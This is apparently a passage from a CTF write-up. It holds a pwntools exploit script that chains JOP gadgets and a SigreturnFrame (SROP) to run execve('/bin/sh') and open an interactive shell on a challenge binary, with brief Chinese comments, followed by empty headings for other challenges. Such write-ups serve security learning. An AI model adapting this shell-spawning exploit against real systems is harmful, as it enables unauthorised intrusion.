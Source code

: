 ```Python
        gdb.attach(p, '''
            b *0x401010
            b *0x4010fd
        ''')

def choose(idx):
    p.sendlineafter(b'> ', str(idx).encode())

def accept():
    choose(1)

def exit():
    choose(3)

def submit(content):
    choose(2)
    p.sendafter(b'feedback: ', content)

pop_rcx_jmp_qrdx = 0x401029
pop_rdi_rcx_rdx_jmp_qrdi_1 = 0x401010
pop_rdx_jmp_qrcx = 0x401021 
mov_rsi_q_rcx_10_jmp_qrdx = 0x40101b
add_rax_rdx_jmp_qrcx = 0x401024
syscall = 0x4010e0

choose(4)
stack = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f"stack address: {hex(stack)}")

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = stack - (0x100 - 0x8)
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = syscall
# 这里不修改这两个的话长度不够，修改后不影响SROP的执行
frame1.__reserved = pop_rdi_rcx_rdx_jmp_qrdi_1
frame1.sigmask = stack + 0x20 - 0x1
# 控制点的逻辑是控制rax为0xf后将rsp跳转到frame的顶上，然后pop之后rsp刚好在frame的顶部
payload = flat([
    stack - 0x50 - 0x1 + 0x10, 
    b'/bin/sh\x00',
     0,
    frame1,
    stack + 0x28, 0xfffffffffffffff9,
    add_rax_rdx_jmp_qrcx,
    0x401155,
    0x40100f, # pop rsp ; pop rdi ; pop rcx ; pop rdx ; jmp qword ptr [rdi + 1]
    stack - 0x100,
])

debug()
submit(payload)

p.interactive()
```

# Onlygets

  

# qheap